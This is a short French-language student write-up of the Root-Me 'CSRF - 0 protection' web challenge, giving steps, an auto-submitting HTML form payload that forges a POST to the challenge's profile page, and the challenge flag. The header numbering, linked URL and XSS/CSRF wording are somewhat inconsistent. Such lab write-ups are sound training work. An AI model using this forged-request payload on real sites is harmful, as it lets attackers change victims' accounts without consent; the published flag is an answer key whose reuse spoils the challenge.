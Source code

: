 ```yaml
---
title: "TP 3 : rootme 9"
excerpt: "CSRF - 0 protection"
coverImage: "https://www.tice-education.fr/images/stories/img/rootmelogo.jpg"
date: "2025-07-01T12:05:00.000Z"
ogImage:
    url: "https://www.tice-education.fr/images/stories/img/rootmelogo.jpg"
---
```


# TP 1 : CSRF - 0 protection

## Informations générales

-   **Nom du challenge** : CSRF - 0 protection
-   **Difficulté** : 3
-   **URL** : https://www.root-me.org/fr/Challenges/Web-Client/Javascript-Authentification

---

## 1. Compréhension du challenge

### Objectif : Trouver cookie admin

### Contexte technique : forum avec form sensible au xss

---

## 2. Étapes de résolution

### Étape 1 : créer un compte

### Étape 2 : aller dans le profil puis contact

### Etape 3 : utiliser la faille XSS de la page de contact pour effectuer une redirection javascript et une validation du formulaire POST

```html
<form
    name="test"
    method="POST"
    action="http://challenge01.root-me.org/web-client/ch22/?action=profile"
>
    <input type="hidden" name="username" value="armand" />
    <input type="hidden" name="status" value="on" />
</form>
<script>
    document.test.submit();
</script>
```

### Etape 4 : Acceder à la page private en tant qu'admin et recuperer le flag

---

## 3. Capture ou extrait de code

![1](https://cdn.discordapp.com/attachments/1020343302052118589/1389547586079293450/image.png?ex=68650489&is=6863b309&hm=78ec9c4b9580cfcc7ee966530cf45a64f3b963ff69e75b7ac3d2435ea3dd75e9&)

![2](https://cdn.discordapp.com/attachments/1020343302052118589/1389549879424188508/image.png?ex=686506ab&is=6863b52b&hm=c1d011022335c78ce13a24bec8411b40de84efb20cd6c8206adaa0ca4015523d&)

![3](https://cdn.discordapp.com/attachments/1020343302052118589/1389549947568918538/image.png?ex=686506bc&is=6863b53c&hm=175d7c710d4ae184ae0eb0b09c802fb34afab564ecc40a836dd01e5a7590d15c&)

---

## 4. Explication technique

### Vulnérabilité exploitée : Manque de prrotection XSS sur les champs

---

## 5. Résultat : Csrf_Fr33style-L3v3l1!

---

## 6. Prévention / bonnes pratiques :

### Proteger les input des attaques XSS
